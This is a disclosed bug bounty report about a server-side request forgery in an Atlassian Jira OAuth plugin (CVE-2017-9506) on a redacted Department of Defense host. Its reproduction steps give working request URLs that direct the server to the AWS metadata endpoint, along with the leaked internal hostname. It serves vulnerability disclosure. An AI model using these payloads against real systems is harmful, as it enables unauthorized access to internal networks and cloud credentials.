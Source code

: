 # SSRF on █████████ Allowing internal server data access

## Report Details
- **Report ID**: 326040
- **URL**: https://hackerone.com/reports/326040
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-15T03:41:47.205Z
- **Disclosed**: 2019-10-08T18:54:58.082Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
An end point on ██████ allows an internal access to the network thus revealing sensitive data and allowing internal tunneling 
**Description:**
OAuth Plugin allows you to provide a url that gives a snap shot of the web page. We can pass internal URLS and conduct SSRF.
## Impact
Critical
## Step-by-step Reproduction Instructions
https://███████/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/hostname
We can see the follow data 
ip-172-31-12-254.█████████.compute.internal
https://████████/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/latest/meta-data/public-ipv4
███████

## Product, Version, and Configuration (If applicable)
Jira 
## Suggested Mitigation/Remediation Actions
Update to recent version

## Impact

An attacker can tunnel into internal networks and access sensitive internal data such as AWS meta data information.

The hacker selected the **Server-Side Request Forgery (SSRF)** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**Can internal services be reached bypassing network access control?**
Yes

**What internal services were accessible?**
AWS Bucket  Meta data

**Security Impact**
CVE-2017-9506 - The IconUriServlet of the Atlassian OAuth Plugin from version 1.3.0 before version 1.9.12 and from version 2.0.0 before version 2.0.4 allows remote attackers to access the content of internal network resources and/or perform an XSS attack via Server Side Request Forgery (SSRF).



## Attachments
No attachments
